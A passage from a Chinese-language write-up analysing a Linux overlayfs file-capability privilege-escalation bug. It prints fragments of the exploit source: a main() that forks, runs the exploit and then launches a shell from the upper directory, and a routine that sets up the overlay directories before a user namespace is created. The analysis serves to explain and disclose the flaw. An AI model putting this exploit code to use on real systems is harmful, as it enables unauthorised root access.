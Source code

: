 也就是说在给`overlay`文件系统中的`./eki_ovlcap/merge/magic`设置`capabilitiy`时就是对ext3文件系统下的`./eki_ovlcap/upper/magic`进行设置`capabilitiy`从而实现了权限逃逸

[![](https://p5.ssl.qhimg.com/t011533d947a4c8370b.png)](https://p5.ssl.qhimg.com/t011533d947a4c8370b.png)



## 漏洞演示

下面具体来看Exp的分析

首先fork子进程在子进程中调用exploit

```
int main(int argc, char *argv[])
`{`
    pid_t child = fork();
    if (child == -1)
        err(1, "fork");
    if (child == 0) `{`
        _exit(exploit());
    `}` else `{`
        waitpid(child, NULL, 0);
    `}`
    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
`}`
```

下面分析`exploit`函数，首先是建立相关文件夹

```
#define DIR_BASE    "./eki_ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
static int exploit()
`{`
    mkdir(DIR_BASE, 0777);
    mkdir(DIR_WORK,  0777);
    mkdir(DIR_LOWER, 0777);
    mkdir(DIR_UPPER, 0777);
    mkdir(DIR_MERGE, 0777);

    return 0;
`}`
```

因为`overlayfs mount`需要`CAP_SYS_MOUNT`，通过`unshare`函数创建新的`user namespace` 使用flag为`CLONE_NEWNS | CLONE_NEWUSER`

[![](https://p2.ssl.qhimg.com/t015e7655665a0ee21e.png)](https://p2.ssl.qhimg.com/t015e7655665a0ee21e.png)
